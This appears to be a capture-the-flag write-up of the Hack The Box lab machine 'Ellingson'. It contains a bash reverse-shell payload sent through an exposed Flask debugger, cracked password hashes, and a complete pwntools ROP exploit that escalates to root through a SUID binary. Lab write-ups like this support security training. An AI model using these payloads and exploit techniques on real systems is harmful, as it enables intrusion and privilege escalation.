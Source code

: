 ```yaml
---
layout: post
title: HTB - Ellingson
date: 2025-03-25 08:53 -0400
---
```


{{ 'ellingson' | get_machine_avatar | raw }}

# nmap

```bash
~/workspace/projects/htb/retired_machines/ellingson » ~/dotfiles/htb/nmap.sh $(cat ip.txt) | tee nmap.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-05 12:10 -04
Nmap scan report for 10.10.10.139
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49e8f12a8062de7e0240a1f430d288a6 (RSA)
|   256 c802cfa0f2d85d4f7dc7660b4d5d0bdf (ECDSA)
|_  256 a5a995f54af4aef8b63792b89a2ab466 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-title: Ellingson Mineral Corp
|_Requested resource was http://10.10.10.139/index
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.79 seconds
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-05 12:11 -04
```

- no .git
- no robots.txt
- default nginx page 404

## main website
flask debug mode is active `http://10.10.10.139/articles/'`. So we get a shell pretty easily.
![flask debug](/assets/img/ellingson1.png)
```python
import subprocess; subprocess.check_output("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/4444 0>&1'", shell=True)
```

## priv esc

There are 3 more users with shells
```bash
theplague:x:1000:1000:Eugene Belford:/home/theplague:/bin/bash
hal:x:1001:1001:,,,:/home/hal:/bin/bash
margo:x:1002:1002:,,,:/home/margo:/bin/bash
duke:x:1003:1003:,,,:/home/duke:/bin/bash
```

Doesn't look like its running on docker. port 8888 is the flask server. 80 is probably the next step.
```bash
hal@ellingson:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      1349/python3
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

weird suid binary called `garbage`, gives an unauthorized message
![unauthorized](/assets/img/ellingson2.png)

`/var/backups/shadow.bak` looks interesting.

```bash
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
```

cracking with `hashcat -a 0 ./hash.txt ~/wordlists/rockyou.txt -m 1800` gives:

```bash
theplague::password123
margo:iamgod$08
```

## priv esc 2

margo gives the user flag:
```bash
margo@ellingson:~$ cat user.txt
80215***************************
```

Now we get a password prompt when using the `garbage` binary.
![password prompt](/assets/img/ellingson4.png)

Reversing it shows the password: `N3veRF3@r1iSh3r3!`. Doesn't work in any of the other users. There is also a buffer overflow on the prompt with `gets`.
![hardcoded password](/assets/img/ellingson3.png)

I'm not very good at this but I have an idea of what to do.
- leak libc
- rop chain
- call system

For leaking libc we have a `print_hex` function, we overwrite the return value and then the next func gets leaked?

It's way simpler actually, we just use a pointer from the `got` table and print it with `puts` or with `print_hex`. I forgot that `puts` and `printf` take a pointer and was trying to pass actual values to it.

```python
#!/usr/bin/env python3

from pwn import *

context(os = 'linux', arch = 'amd64')
libc = ELF("./libc.so.6", checksec=False)
elf = ELF(
    "./garbage",
    checksec=False,
)

context.binary = elf
context.log_level = 'debug'

def pad(char, qt):
    return char.encode() * qt

def pop_rdi(data):
    # 0x000000000040179b : pop rdi ; ret
    return p64(0x0040179b) + data

def pop_rbp(data):
    return p64(0x00401239) + data

def pop_rsi(data):
     # : pop rsi ; pop r15 ; ret
    return p64(0x00401799) + data + (b"\x00"*8)

def pop_rsp(data):
    # 0x0000000000401795 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
    return p64(0x00401795) + data + (b"\x00"*8) + (b"\x00"*8) + (b"\x00"*8)

def add_rsp8():
    return p64(0x0000000000401012)

payload = (
    pad("A", 136)
    + pop_rdi(b"")
    + p64(elf.got['puts'])
    + p64(elf.symbols['puts'])
    + p64(elf.symbols['main'])
)

shell = ssh(user='margo', host='10.10.10.139', password='iamgod$08')
p = shell.run("/bin/bash")
p.sendline("/usr/bin/garbage")

p.recvuntil(b"password:")
p.sendline(payload)
p.recvuntil(b"denied.\n")

leaked_puts = u64(p.recv()[0:6] + b"\x00\x00")
libc_base = leaked_puts - libc.symbols["puts"]
libc.address = libc_base

rop = ROP([libc])
rop.setuid(0x0)
rop.system(next(libc.search(b'/bin/sh\x00')))

p.sendline(pad("A", 136) + rop.chain())
p.recvuntil(b"denied.\n")
p.interactive()
```

```bash
$ cat /root/root.txt
370e2***************************
```

